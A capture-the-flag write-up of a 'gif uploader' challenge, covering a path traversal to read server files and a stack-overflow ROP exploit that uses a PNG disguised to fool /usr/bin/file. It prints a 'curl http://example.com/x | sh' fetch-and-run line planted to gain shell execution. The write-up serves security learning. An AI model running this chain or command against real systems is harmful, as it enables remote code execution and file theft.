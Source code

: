 ## gif uploader – Pwnable Challenge

gif uploader was more of a "variety" challenge than just a pwnable.

### Stage 1: Reading files.

Gif uploader starts as a bit of a web and crypto challenge. We're provided with a `__main__.py` file that implements an encryption routine, and the address of a website that prompts you to upload a gif, and then allows for performing some tasks on them: view, share, encrypt, and a weird "Get Red/Green/Blue from Image" option that will come up later.

The "encrypt" option on the website leads to `http://13.125.6.142/encrypt.php?a=<sha1 of connecting ip address>/image`, which contains a base64 blob (this is in fact the output of `__main__.py` on the uploaded image). By trying paths like `?a=../../../../etc/passwd`, we noticed that being able to reverse the encryption would let us dump files off the server.

The encryption routine in `__main__.py` uses a server-side key, that it fetches with `chdir("/var/www/html/"); A=open("key","rb").read().strip()`. We could simply download this file at `http://13.125.6.142/key`, which was necessary in implementing a decryption routine.

Our decryption routine is attached in `decrypt_files.py`. We used it to fetch the php source of the web application.

### Stage 2: Pwning the binary.

We used this encrypt.php file read to download the source of the web application. The source was not interesting, except that the "Get Red/Green/Blue from Image" was implemented with a helper binary `/server`. We downloaded this binary via encrypt.php as well. The decompiled source of this binary is attached in `server.c`.

This server binary does the following:

1. Checks that /usr/bin/file contains "GIF image data" (and aborts if it doesn't).
2. Opens the file as a GIF, PNG, JPEG, or BMP; whatever works.
3. Stack overflows with the image data, if the image is really wide (over 65792 pixels).

Unfortunately, the width of a GIF image is limited to too small a number of pixels for the overflow to occur. However, the uploaded image file doesn't really need to be a GIF. All we need is to control the output of /usr/bin/file to contain the above string.

We first tried JPEGs with EXIF metadata, which is quite easy to control to contain arbitrary strings which /usr/bin/file will print out. Unfortunately, JPEGs are also limited in width.

We ended up using PNG files (which can be wide enough), and modified them to trick /usr/bin/file to recognize them as Linux swap files. File allows for a controlled "LABEL" string to be printed out for swap files, so we put "GIF image data" in there (along with a connect-back shell script that our exploit needed).

```
# Example of what one of our modified PNGs looks like to file.
$ /usr/bin/file /tmp/test.png
/tmp/test.png: Linux/i386 swap file (new style), version 707406378 (4K pages), size 707406378 pages, LABEL= ; curl http://example.com/x | sh; GIF image data, UUID=2a2a2a2a-2a2a-2a2a-2a2a-2a2a2a2a2a2a
```

The actual memory-corruption part of the exploit is fairly straightforward. The binary is non-PIE and has no stack canaries, so the stack overflow grants us unconstrained ROP. Even though the exploit is non-interactive and ASLR prevents us from using libc, the binary contains a plt entry to `popen()` (because of how it invokes /usr/bin/file). And thanks to binary saving output from the /usr/bin/file call into the .data section, we were able to place `curl http://example.com/x | sh` at a fixed location in the binary. Simply calling `popen()` on this string gives us shell script execution on the target machine.

The script to generate a PNG containing the ROP chain, as well as to modify it to trick /usr/bin/file, is attached as `generate_gif.py`.
